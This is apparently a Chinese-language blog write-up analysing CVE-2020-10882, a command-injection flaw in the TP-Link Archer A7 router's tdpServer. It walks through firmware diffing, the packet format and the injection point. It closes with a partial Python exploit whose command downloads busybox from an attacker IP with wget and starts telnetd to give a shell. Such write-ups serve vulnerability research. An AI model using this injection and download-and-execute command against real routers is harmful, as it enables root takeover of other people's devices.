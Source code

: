 ```yaml
---
date: 2025-08-07T06:02:51+08:00
title: TP-Link Archer A7漏洞分析与利用：从逆向工程到远程代码执行
tags: [漏洞分析,路由器安全,逆向工程,CVE-2020-10882]
authors: qife
description: 本文详细分析了TP-Link Archer A7路由器中的CVE-2020-10882漏洞，该漏洞存在于tdpServer服务中，允许攻击者通过特制的UDP数据包实现远程代码执行。文章涵盖了从固件分析、逆向工程到最终漏洞利用的全过程。
---
```


# 环境搭建
调试和分析主要在路由器环境中进行。通过USB-TTL设备获取路由器交互式shell的方法已有相关指南，这里不再赘述。OpenWRT提供了[指南1](链接1)和[指南2](链接2)说明具体操作。

对于代码分析，采用了bindiff方法来定位漏洞函数。可从以下链接下载有漏洞和已修复的固件版本：
- 修复版本：Archer A7(US)_V5_200220
- 漏洞版本：Archer C7(US)_V5_190726

注意Archer C7和A7型号共享大多数二进制文件，因此分析C7或A7固件镜像均可。

# BinDiff分析
首先从固件中提取MIPS(Big Endian)二进制文件并加载到Ghidra中。按照[BinDiffHelper项目](项目链接)的说明进行操作，同时下载安装bindiff6。

使用Ghidra和Bindiff后，发现几个相似度很低的函数。跟踪这些地址发现，FUN_00414D14似乎指向一个函数，这可能是存在漏洞的函数。

# 静态分析
根据ZDI网站上的CVE报告描述，漏洞存在于默认监听UDP端口20002的tdpServer服务中。当解析slave_mac参数时，该服务未正确验证用户输入的字符串就直接用于执行系统调用。

在反编译代码中搜索slave_mac字符串，发现多个结果。第一个搜索结果中，有多个地方包含slave_mac字符串，其中还包括对FUN_00414d14函数的引用。

关键的字符串"tdpUciInterface.c:644","About to get slave mac %s info"只有一处引用，地址为0x40e7e4。根据Bindiff，这里很可能没有变化或差异。

# 寻找system()调用
根据CVE描述，我们需要寻找攻击者可能控制的system()函数调用。在FUN_00414d14函数中发现了三个system调用，其中一个特别有趣：

```c
snprintf(interesting_acStack7432,0x1ff,
  "lua -e \'require(\"luci.controller.admin.onemesh\").sync_wifi_specified({mac=\"%s\"})\'"
  , to_be_controlled_acStack4248);
```

# 漏洞利用
在这个漏洞函数中，slave_mac值可以控制传递给system()的参数。我们可以通过以下步骤实现利用：

1. 为MIPS Big Endian设置GDB服务器
2. 测试与tdpServer的连接
3. 制作有效载荷
4. 完整漏洞利用

## 制作数据包
数据包由16字节的包头和最大0x410字节的JSON有效载荷组成。第一个字节表示tdp版本，这个固件只接受版本1的数据包。

数据包校验和计算使用CRC-32算法。校验通过后，有效载荷会使用IV和DecryptKey通过AES_DECRYPT在CBC模式下解密。

## 命令注入
slave_mac字段用于将字符写入文件p。该字段有17个字符的限制。命令注入工作原理如下：

```lua
lua -e 'require("luci.controller.admin.onemesh").sync_wifi_specified({mac=" ';INJECT HERE;' "})'
```

我们使用printf将字符追加到文件中，通过发送多个数据包构建完整脚本后执行。

# 完整漏洞利用
要实现反向shell，可以从我们的机器下载busybox，然后使用telnetd获取反向shell，通过wget命令逐个字符写入文件并执行。

```python
from pwn import *
import socket
import time
from Crypto.Cipher import AES
import zlib

ATTACKERIP = "192.168.0.125"
ATTACKPORT = "8090"
fileName = "m"

COMMAND = "wget http://"+ATTACKERIP+":8000/busybox-mips -P /tmp;chmod +x /tmp/busybox-mips;/tmp/busybox-mips telnetd -l /bin/sh -p "+ATTACKPORT + " " + ATTACKERIP + ";wget http://" +ATTACKERIP+":8000/index.jpg -P /www;"

[完整Python利用代码...]
```

该漏洞允许攻击者在root用户上下文中执行任意代码，危害极大。建议用户及时更新固件版本。